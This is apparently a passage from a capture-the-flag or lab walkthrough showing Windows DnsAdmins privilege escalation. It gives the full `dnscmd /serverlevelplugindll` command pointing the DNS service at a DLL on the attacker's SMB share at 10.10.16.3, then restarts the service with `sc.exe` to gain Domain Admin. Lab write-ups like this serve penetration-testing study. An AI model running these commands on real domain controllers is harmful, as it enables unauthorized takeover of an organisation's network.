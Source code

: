 *after that,* we're going to reconfigure the **DNS** service using `dnscmd` with the `/config` flag along with `/serverlevelplugindll` pointing to our **SMB** share named `share`. It should be as below:

`dnscmd /config /serverlevelplugindll \\10.10.16.3\share\adduser.dll`

we can then trigger the execution by stopping the **DNS** service and restarting it.

```
sc.exe stop dns
sc.exe start dns
```

![dns-admins-abuse](dns-admins-abuse.jpg)

we get a connect back on our **SMB** share and code execution occures giving us the **Domain Admin** in our hands

![got-domain-admin](got-domain-admin.jpg)
